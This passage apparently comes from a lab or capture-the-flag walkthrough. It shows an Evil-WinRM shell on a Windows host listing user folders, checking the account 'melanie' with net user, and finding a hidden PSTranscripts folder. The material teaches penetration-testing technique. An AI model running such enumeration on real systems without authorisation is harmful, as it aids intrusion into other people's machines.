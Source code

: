 ```jsx
sunita                   ulf                      zach
The command completed with one or more errors.
```

We can also see what users have logged onto the machine

```jsx
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  10:43 AM                Administrator
d-----        12/4/2019   2:46 AM                melanie
d-r---       11/20/2016   6:39 PM                Public
d-----        9/27/2019   7:05 AM                ryan
```

Viewing our group permissions we can see we don't have any access to anything special

```jsx
*Evil-WinRM* PS C:\Users> net user melanie
User name                    melanie
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/21/2020 5:39:04 AM
Password expires             Never
Password changeable          5/22/2020 5:39:04 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Looking for hidden files in the C: drive we can find a PSTranscripts folder

```jsx
*Evil-WinRM* PS C:\> ls -h

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
```